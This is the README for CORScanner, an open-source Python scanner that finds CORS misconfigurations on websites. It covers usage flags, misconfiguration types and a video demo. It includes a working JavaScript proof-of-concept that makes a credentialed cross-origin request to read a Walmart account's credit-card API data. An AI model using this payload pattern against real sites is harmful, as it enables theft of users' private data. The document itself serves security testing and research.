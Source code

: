 ## About CORScanner 

CORScanner is a python tool designed to discover CORS misconfigurations vulnerabilities of websites. It helps website administrators and penetration testers to check whether the domains/urls they are targeting have insecure CORS policies. 

### Features
* **Fast**. It uses [gevent](https://github.com/gevent/gevent) instead of Python threads for concurrency, which is much faster for network scanning.
* **Comprehensive**. It covers all [the common types of CORS misconfigurations](#misconfiguration-types) we know.
* **Flexible**. It supports various self-define features (e.g. file output), which is helpful for large-scale scanning.

Two useful references for understanding CORS systematically: 
* USENIX security 18 paper: [We Still Don’t Have Secure Cross-Domain Requests: an Empirical Study of CORS](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)
* 中文详解：[绕过浏览器SOP，跨站窃取信息：CORS配置安全漏洞报告及最佳部署实践](https://www.jianjunchen.com/post/cors%E5%AE%89%E5%85%A8%E9%83%A8%E7%BD%B2%E6%9C%80%E4%BD%B3%E5%AE%9E%E8%B7%B5/)

## Screenshots

![CORScanner](https://github.com/chenjj/CORScanner/raw/master/images/screenshot.png "CORScanner in action")

## Installation

- Download this tool
```
git clone https://github.com/chenjj/CORScanner.git
```

- Install dependencies
```
sudo pip install -r requirements.txt
```
CORScanner depends on the `requests`, `gevent`, `tldextract`, `colorama` and `argparse` python modules.

## Python Version:

* Both Python 2 (**2.7.x**) and Python 3 (**3.7.x**) are supported.

## Usage

Short Form    | Long Form     | Description
------------- | ------------- |-------------
-u            | --url         | URL/domain to check it's CORS policy
-d            | --headers     | Add headers to the request
-i            | --input       | URL/domain list file to check their CORS policy
-t            | --threads     | Number of threads to use for CORS scan
-o            | --output      | Save the results to json file
-v            | --verbose     | Enable the verbose mode and display results in realtime
-h            | --help        | show the help message and exit

### Examples

* To check CORS misconfigurations of specific domain:

``python cors_scan.py -u example.com``

* To enable more debug info, use -vvv:

``python cors_scan.py -u example.com -vvv``

* To check CORS misconfigurations of specific URL:

``python cors_scan.py -u http://example.com/restapi``

* To check CORS misconfiguration with specific headers:

``python cors_scan.py -u example.com -d "Cookie: test"``

* To check CORS misconfigurations of multiple domains/URLs:

``python cors_scan.py -i top_100_domains.txt -t 100``

* To list all the basic options and switches use -h switch:

```python cors_scan.py -h```

## Misconfiguration types
This tool covers the following misconfiguration types:

Misconfiguration type    | Description
------------------------ | --------------------------
Reflect_any_origin       | Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.
Prefix_match             | `wwww.example.com` trusts `example.com.evil.com`, which is an attacker's domain.
Suffix_match             | `wwww.example.com` trusts `evilexample.com`, which could be registered by an attacker.
Not_escape_dot           | `wwww.example.com` trusts `wwwaexample.com`, which could be registered by an attacker.
Substring match          | `wwww.example.com` trusts `example.co`, which could be registered by an attacker.
Trust_null               | `wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts
HTTPS_trust_HTTP         | Risky trust dependency, a MITM attacker may steal HTTPS site secrets
Trust_any_subdomain      | Risky trust dependency, a subdomain XSS may steal its secrets
Custom_third_parties     | Custom unsafe third parties origins like `github.io`, see more in [origins.json](./origins.json) file. Thanks [@phackt](https://github.com/phackt)!
Special_characters_bypass| Exploiting browsers’ handling of special characters. Most can only work in Safari except `_`, which can also work in Chrome and Firefox. See more in [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/). Thanks [@Malayke](https://github.com/Malayke).
  
Welcome to contribute more.  
  
## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Localhost is the malicious website in the video.

Walmart.com video on Youtube:

[![Walmart_CORS_misconfiguration_exploitation](https://github.com/chenjj/CORScanner/raw/master/images/walmart.png)](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

If you have understood how the demo works, you can read Section 5 and Section 6 of the [CORS paper](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/) and know how to exploit other misconfigurations.

## License

CORScanner is licensed under the MIT license. take a look at the [LICENSE](./LICENSE) for more information.


## Credits
This work is inspired by the following excellent researches:

* James Kettle, “Exploiting CORS misconfigurations for Bitcoins and bounties”, AppSecUSA 2016*
* Evan Johnson, “Misconfigured CORS and why web appsec is not getting easier”,  AppSecUSA 2016*
* Von Jens Müller, "CORS misconfigurations on a large scale", [CORStest](https://github.com/RUB-NDS/CORStest)*

## Version
**Current version is 1.0**
